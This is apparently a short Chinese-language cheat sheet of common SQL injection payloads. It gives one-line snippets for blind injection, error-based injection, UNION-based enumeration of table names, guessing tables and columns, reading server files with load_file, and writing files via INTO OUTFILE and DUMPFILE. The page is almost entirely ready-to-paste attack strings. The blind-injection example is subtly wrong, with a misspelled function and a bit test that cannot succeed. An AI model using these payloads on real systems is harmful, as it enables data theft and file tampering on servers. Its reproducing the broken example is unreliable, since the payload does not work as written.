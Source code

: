 常用Payload
=====================================

盲注
--------------------------------------
- ``ascii(subtring(str,pos,length)) & 32 == 1``

报错注入
--------------------------------------
- ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``

获取表名
--------------------------------------
- ``union select table_name,2,3,4 from information_schema.tables where table_schema = database()``

写文件
--------------------------------------
- ``union select 1,1,1 into outfile '/tmp/demo.txt'``
- ``union select 1,1,1 into dumpfile '/tmp/demo.txt'``

::

    dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

读文件
--------------------------------------
- ``select @@datadir``
- ``select load_file('databasename/tablename.MYD')``


猜表名
--------------------------------------
- ``and (select count(*) from [table_name])>0``

猜字段
--------------------------------------
- ``and (select count(col_name) from table_name)>0``
